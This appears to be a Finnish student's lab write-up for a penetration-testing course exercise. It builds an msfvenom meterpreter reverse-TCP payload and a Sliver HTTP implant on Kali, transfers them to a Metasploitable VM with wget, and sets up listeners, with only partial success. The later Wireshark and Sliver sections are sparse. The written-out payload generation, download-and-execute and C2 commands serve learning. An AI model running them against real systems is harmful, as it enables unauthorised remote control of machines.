# a) Venom. Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Ensimmäiseksi testasin onko minun Kali-koneessa ladattu msfvenom. Laitoin terminaaliin `msfvenom` ja sieltä tuli:



 Nyt voidaan aloittaa payloadin tekeminen. Payload luotiin msfvenom-työkalulla, joka mahdollistaa genereoimista erilaisia gyökkäystiedostoja eri käyttöjärjetelmille.(Metasploit Unleashed)
  
Sen komento on `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.2.102 LPORT=9001 -f elf -o payload.elf`

 Tässä:
 `LPORT` = local port eli portti, johon yhteys tulee takaisn
`-f elf` = `-f` tarkoittaa formaattia ja `elf` on Linux ececutable -tiedosto, eli tekee Linuxissa ajettavan binäärin.



Tiedoston luonti onnistuu ja se tallentuu nimellä `payload.elf`.

Seuraavaksi siirretään tämä tiedosto käyttämällä `python3 -m http.server 8000`.



Sen jälkeen Avasin Metasploitable ja kirjoitin sinne:

 `wget http://192.168.56.102:800/payload.elf`
 
  jotta se payload latautuisi Kali-koneelta.



Sen jälkeen annoin suoritusoikeus tiedostolle komennolla:
 `chmod +x payload.elf`
 



Kali-koneessa käynnistin `msfconsole` ja sen jälkeen kuuntelijan seuraavasti:

 `use exploit/multi/handler` 

`set payload linux/x86/meterpreter/reverse_tcp`

`set LHOST 192.168.56.102`

`set LPORT 9001`

`run`



Tämän jälkeen Metasploitablessa komennon:

 `./payload.elf`
 
Tämän jälkeen Kali-koneessa ei aluksi näkynyt mitään muutosta, joten päätin testaa toimiiko  yhteys koneiden välillä käyttämällä `nc`-komentoa:

`nc 192.168.56.102 9001`

Sitten näkyi Kali-koneessa seuraavasti: 



Tämä tarkoittaa, että ygteys Metasploitablesta Kali-koneeseen muodostui onnistuneesti, Yhteys kuintekin sulkeutui heti, mikä näkyy session kaatumisena.

Metasploitablessa `nc`-komennon suorittamisen jälkeen näkyi tällaista:



Ruudulla näkyvä "raaka data" johtuu varmasti siitä, että yhteys käyttää binääristä protokollaa, jota nc-ohjelma ei osaa tulkita oikein ja sen takia se näyttää satunnaisia merkkejä.

Näiden testien perusteella voidaan päätellä, että käänteinen TCP-yhteys muodostettiin onnistuneesti kohteesta Kali-koneeseen, vaikka meterpreter-sessio ei pysynyt auki.

# b) Snif venom! Tarkastele ja analysoi msfvenomin muodostamaa reverse shell -yhteyttä. Käytä snifferiä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Tätä kohtaa en ehtinyt suorittaa aikataulun takia, mutta tutusuin ainakin siihen, että miten tämä analyysi olisi pitänyt tehdä.

Wireshark on verkkoliikenteen analysointityökalu, jonka vaulla voi tarkastella verkossa liikkuvia tietoja pkaeetitasolla(Wireshark.org). Sen avulla voidaan nähdä esim. IP-osoitteet ja portit.

Tässä harjoituksessa Wiresharkia olisi käytetty reverse shell-yhteyden analysointiin. Reverse TCP -yhteydessä kohdekone muodostaa yhteyden hyökkääjän koneeseen, minkä vuoksi liikenne näkyy verkossa poistuvana yhteytenä kohdekoneelta Kali-koneeseen.

# c) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

Ekana asennetaan Sliveriä Kali-koneeseen. Katsoin heidän sivustolta ja `curl https://sliver.sh/install | sudo bash` komennon avulla saa ladattua Sliverin.





Komennon jälkeen pyydetään virtuaalikoneen salasana, jonka syöttämisen jälkeen asennus käynnistyy ja suoritettiin loppuun. Eli nyt Sliver on asennettu.

Seuraavaksi käynnistetään `sliver` kirjoittamalla se terminaaliin. 



Ekana kirjoitin `help` ja katson lista Sliverin komennoista.



Avaan tässä vaiheessa myös Metasploitable ja kirjaudun sisään käyttäjällä `msfadmin`. Sen salasana on myös msfadmin.



Sitten kirjoitin `ipconfig a` ja tarkistan IP-osoitteen ja se oli `192.168.56.101`.

Seuraavaksi muutin verkkoasetuksia: poistin  NAT-yhteyden ja laitoin päälle Host-only -verkon. Sen jälkeen avasin uuden terminaalin Kali-koneessa ja kirjoitin `ip a`, jotta saan selville sen IP-osoitteen.



 Kali-koneen IP-osoite oli `192.168.56.102`.

 Tämän jälkeen menin takaisin Sliveriin ja käynnistin HTTP-kuuntelijan komennolla:
 
  `http --lport 8080` 
  
Sen jälkeen tarkistin `jobs`-komennolla, että kuuntelija käynnistyi onnistuneesti.
 
 

 Seuraavaksi käytin `generate`-komentoa payloadin luomiseen.
 
 

 Tässä vaiheessa kysyttiin erilaisia tietoja, kuten käyttöjärjestelmä, prosessorin arkkitehtuuri ja yhteystyyppi. C2 connection string -kohtaan laitoin:
 
  `http://192.168.56.102:8080`
 
 

  Täytin tarvittavat tiedot, jonka jälkeen Sliver alkoi generoimaan payloadia. Generoinnin jälkeen tulos näytti tältä:

 

 Payload tallentui nimellä "WELL_GRAND". Seuraavaksi siirsin tiedoston Kalista Metasploitableen. Käytin tähän yksinkertaista HTTP-palvelinta:
 
 `python3 -m http.server 8000`

 
 
 Tämän jälkeen latasin tiedoston Metasploitablessa komennolla:

 `wget http://192.168.56.102:8000/WELL_GRAND`

 

 Tässä vaiheessa huomasin, että olin generoinut payloadin AMD64-arkkitehtuurille, vaikka Metasploitable on 32-bittinen(i686), eli arkkitehtuuri olisi 386. Tämän vuoksi generoin payloadin uudestaan oikeilla asetuksilla ja siirsin sen uudelleen.



Sen jälkeen yritin suorittaa payloadia uudestaan, mutta yhteyttä ei silti muodostunut. Tarkistin Sliverissä `session` ja `beacon`-komennolla, mutta yhteyttä ei tullut näkyviin. 

Yritin tämän jälkeen generoida payloadin uudestaan ja testata eri asetuksilla, mutta en saanut yhteyttä toimimaan. Tästä huolimatta ymmärsin prosessin vaiheet, kuten kuuntelijan käynnistämisen, payloadin generoinnin sekä tiedoston siirtämisen kohdekoneeseen.
 

# d) Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?

Tässä tarkastelin yhteyttä snifferiä käyttämällä Wireshark-ohjelmaa. Edellisen tehtävässä en saanut yhteyttä toimimaan, joten en päässyt tässä tehtävässä kovin syvälle.

Kali koneessa oli jo valmiiksi asennettuna Wireshark, joten avasin sen kirjoiottamalla terminaaliin `wireshark`



Tämän jälkeen avautui Wiresharkin aloitusnäkymä ja sieltä valitsin eth0.

Sitten käytin suodatinta:

# e) Sliverillä voit muuttaa yhteyden ominaisuuksia. Kokeile ja näytä esimerkki. Muista todeta testein, että muutokset toimivat.

Sliverissä voi muuttaa yhteyden ominaisuuksia, kuten yhteyden tyyppiä tai porttia. 
# f) Sliverillä voi tehdä monenlaista kohteessa, ruutukaappauksista alkaen. Näytä esimerkkejä toiminnoista.

Tässä testataan  mitä toimintoja Sliver tarjoaa kohdekoneessa. 

Esimerkkejä komennoista ovat `whoami` ja `pwd`, joilla voi tarkistaa käyttäjän ja nykyisen hakemiston ja kohdekoneella. Sen lisäksi komentoja kuten `ls` voidaan käyttää hakemistossa olevien tiedostojen tarkasteluun.

Näiden komentojen avulla voit tutkia kohdejärjestelmää ja sen rakennetta etänä.

Lähteet:
- Bishop Fox. Sliver Documentation. Luettavissa: https://github.com/BishopFox/sliver/wiki/Linux-Install-Script/912fe750760159efc1f3f496b22ac077059619d3
- OffSec. Metasploit Unleashed: msfvenom. Luettavissa: https://www.offsec.com/metasploit-unleashed/msfvenom/
- Wireshark. About Wireshark. Luettavissa: https://www.wireshark.org/about